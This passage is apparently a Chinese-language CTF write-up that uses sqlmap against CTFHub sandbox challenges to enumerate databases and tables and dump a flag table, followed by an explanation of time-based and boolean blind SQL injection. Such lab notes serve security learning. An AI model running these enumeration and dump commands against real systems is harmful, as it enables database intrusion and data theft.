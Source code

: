 使用sqlmap来进行爆破

```
python sqlmap.py -u "http://challenge-ebc1cd479c500d9e.sandbox.ctfhub.com:10800/?id=1" --dbs
```

这里python sqlmap.py -u"url" -batch是基本的注入框架，“-dbs”指向数据库。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609164002178.png" alt="image-20220609164002178" style="zoom:80%;" />

```html
python sqlmap.py -u "http://challenge-ebc1cd479c500d9e.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables
```

-D是数据库，“-tables”指向爆破表名。

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609164153911.png" alt="image-20220609164153911" style="zoom:80%;" />

```
python sqlmap.py -u "http://challenge-ebc1cd479c500d9e.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns --dump
```

-T是表名，-columns是爆破列名,-dump是爆数据

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609164407130.png" alt="image-20220609164407130" style="zoom:80%;" />

### **时间盲注

基于时间的盲注就是在sql注入过程中，sql语句执行的选择后，选择的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。

**盲注原理：**

盲注的本质就是猜解，在没有回显数据的情况下，我们只能靠‘感觉’来体会每次查询时一点点细微的差异，而这差异包括运行时间的差异和页面返回结果的差异。

对于基于布尔的盲注来说，我们可以构造一条注入语句来测试我们输入的布尔表达式，而这布尔表达式结果的真假，决定了每次页面有不同的反应。

对于基于时间的盲注来说，我们构造的语句中，包含了能否影响系统运行时间的函数，根据每次页面返回的时间，判断注入的语句是否被成功执行。

使用sqlmap来进行爆破

```
python sqlmap.py -u "http://challenge-e99a1b60dec1fa53.sandbox.ctfhub.com:10800/?id=1" --dbs
```

这里python sqlmap.py -u"url" -batch是基本的注入框架，“-dbs”指向数据库。

![image-20220609171203829](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609171203829.png)

```html
python sqlmap.py -u "http://challenge-e99a1b60dec1fa53.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables
```

-D是数据库，“-tables”指向爆破表名。

![image-20220609171339585](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609171339585.png)

```
python sqlmap.py -u "http://challenge-e99a1b60dec1fa53.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns --dump
```
